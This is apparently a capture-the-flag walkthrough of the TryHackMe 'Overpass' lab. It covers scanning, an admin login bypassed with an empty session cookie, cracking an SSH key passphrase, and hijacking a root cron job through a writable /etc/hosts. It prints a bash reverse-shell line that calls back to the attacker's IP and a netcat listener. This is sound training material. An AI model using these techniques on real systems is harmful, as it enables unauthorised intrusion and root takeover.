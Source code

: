 ```yaml
---
Platform: TryHackMe
Difficulty: Easy
Status: Rooted/Finished
Type: Machine
Title: Overpass
Category: 
tags: 
CreatedOn: 04-12-2023
---
```

# Overpass

In this writeup we are going to solve the Overpass room from TryHackMe.

Link to the Room : [https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

  

Lets Start……

  

First start the machine and perform a basic nmap scan.

Command: `nmap -A -T4 -v <Target_IP>`

![Untitled.png](Overpass/assets/Untitled.png)

From the results of the nmap scan, we can find 2 ports that are open, one is port 22 and the other one is port 80. On port 22 ssh service is running and on port 80, a golang http server is running. Lets visit the website that is running on port 80.

![Untitled 1.png](Overpass/assets/Untitled%201.png)

There is nothing interesting on the website. Lets enumerate the directories in the web server to find hidden directories using gobuster.

Command: `gobuster dir -u http://<Target_ID>/ -w` `**/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt**`

![Untitled 2.png](Overpass/assets/Untitled%202.png)

From the results of the gobuster, we can see that there is a directory `/admin`.

The `/admin` path consists of a login page for the Administrator area.

![Untitled 3.png](Overpass/assets/Untitled%203.png)

I tried some default credentials like `admin:admin` but it didn’t work. Then I tried some basice sql injection but it also didn’t work. Then I checked the page source and found the `login.js` script.

![Untitled 4.png](Overpass/assets/Untitled%204.png)

In the `login.js` script, in the login function, if the login is successful, it sets a cookie named “SessionToken”.

![Untitled 5.png](Overpass/assets/Untitled%205.png)

So, I tried to manually set a cookie with the name of “SessionToken” and with a empty value “”.

To set the cookie, open the dev tools and go to the application tab, and go to the cookies section and double click the Name area to add a cookie and enter the name as `SessionToken` , leave the value as empty and set the Path to “/”.

![Untitled 6.png](Overpass/assets/Untitled%206.png)

Now refresh the page. We have successfully logged in.

![Untitled 7.png](Overpass/assets/Untitled%207.png)

The web application only checks whether there is cookie to access the admin page and it doesn’t verify or check whether the cookie is valid or not.

We can see SSH Key for the user `james` in the admin page and its also mentioned that if we crack this SSH key we can find the password for the user james. Now copy and save this Key in a file in your local machine.

![Untitled 8.png](Overpass/assets/Untitled%208.png)

I have saved the private key in a file named key. I changed the permission of the key file to `666` using the command `chmod 600 key` and I tried to login via SSH using this key, it’s prompting for a passphrase.

![Untitled 9.png](Overpass/assets/Untitled%209.png)

So, I tried to crack the key using [JohnTheRipper](https://www.openwall.com/john/). To do that so, first we have to convert the private key into a hash format. To do that we can use `ssh2john`.

![Untitled 10.png](Overpass/assets/Untitled%2010.png)

I have generated the hash and stored in a file named `johnSSH`. Now we can use this hash to crack the passphrase using [JohnTheRipper](https://www.openwall.com/john/).

Command: `john --wordlist=/usr/share/wordlists/rockyou.txt johnSSH`

![Untitled 11.png](Overpass/assets/Untitled%2011.png)

And we got the passphrase. Now we can login via SSH as the user `james` by using the private key and passphrase.

![Untitled 12.png](Overpass/assets/Untitled%2012.png)

Now we have logged in as the user `james`. And you can get the user flag from user.txt.

![Untitled 13.png](Overpass/assets/Untitled%2013.png)

Now to find the root flag we have to escalate our priveleges. For that we are going to use the [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) tool. Download the [`linpeas.sh`](http://linpeas.sh) script in your local machine. Now go to the directory where your downloaded [`linpeas.sh`](http://linpeas.sh) file is and open the directory location in a terminal.

Now we can use python to start a simple http server to host the [`linpeas.sh`](http://linpeas.sh) file and we can download this file from the ssh session of the user james as tryhackme rooms don’t have internet access. To start a simple http server use the following command:

`python3 -m http.server`

![Untitled 14.png](Overpass/assets/Untitled%2014.png)

Now in the ssh session of james, use wget to download the linpeas file using the following command: `wget http://<your_tryhackme_tun_IP>:8000/`[`linpeas.sh`](http://linpeas.sh). After downloading the file, update the linpeas.sh files permission to be a executable by using the following command: `chmod +x linpeas.sh`

![Untitled 15.png](Overpass/assets/Untitled%2015.png)

Now run the linpeas.sh file and wait for its response.

![Untitled 16.png](Overpass/assets/Untitled%2016.png)

Under the `cron jobs` section of the response, we can see that there is a curl command which is executed with root permissions.

![Untitled 17.png](Overpass/assets/Untitled%2017.png)

The curl command is executing a file named `buildscript.sh` which has a file path `/downloads/src/buildscript.sh` which is hosted in the `overpass.thm` address.

We can check the `/etc/hosts` file to find out which IP address/domain the `overpass.thm` address resolves to.

![Untitled 18.png](Overpass/assets/Untitled%2018.png)

We can see that the `overpass.thm` resolves to localhost i.e, `127.0.0.1`.

And also under the `Interesting writable files` section of the `linpeas` response, we can see that we have write access to the `/etc/hosts` file

![Untitled 19.png](Overpass/assets/Untitled%2019.png)

So, we can modify the `/etc/hosts` file i.e., we can change the resolving IP address of the `overpass.thm` from `127.0.0.1` to our self hosted server and we can make it to execute our custom made `buildscript.sh` file in our local machine which on executed will obtain a reverse shell.

To do that we have to create directory structure in our local machine, like the directory structure in the curl command i.e., `/downloads/src/buildscript.sh`.

![Untitled 20.png](Overpass/assets/Untitled%2020.png)

Now in the `src` directory, create a [`buildscript.sh`](http://buildscript.sh) file which on executed will obtain a reverse shell. The `buildscript.sh` file contains the following python script:

```
/bin/bash -i >& /dev/tcp/<your_tryhackme_tun_IP>/9001 0>&1
```

![Untitled 21.png](Overpass/assets/Untitled%2021.png)

Now go to the root directory for our web server, in my case it is the `~Desktop/Overpass` directory and execute the following command : `python3 -m http.server 80`

![Untitled 22.png](Overpass/assets/Untitled%2022.png)

And also open another terminal and create a `netcat` listener on port `9001` using the following command : `nc -lvnp 9001`

![Untitled 23.png](Overpass/assets/Untitled%2023.png)

Now in the `james` SSH session open the `/etc/hosts` with your favourite text editor and edit the IP address of the `overpass.thm` from `127.0.0.1` to `<your_tryhackme_tun_IP>`.

![Untitled 24.png](Overpass/assets/Untitled%2024.png)

Now wait for some time (around 20 to 30 secs). You will get a reverse shell back, check the `netcat` listener that you have created…..

![Untitled 25.png](Overpass/assets/Untitled%2025.png)

Successfully got the root flag…..

  

Thankyou…….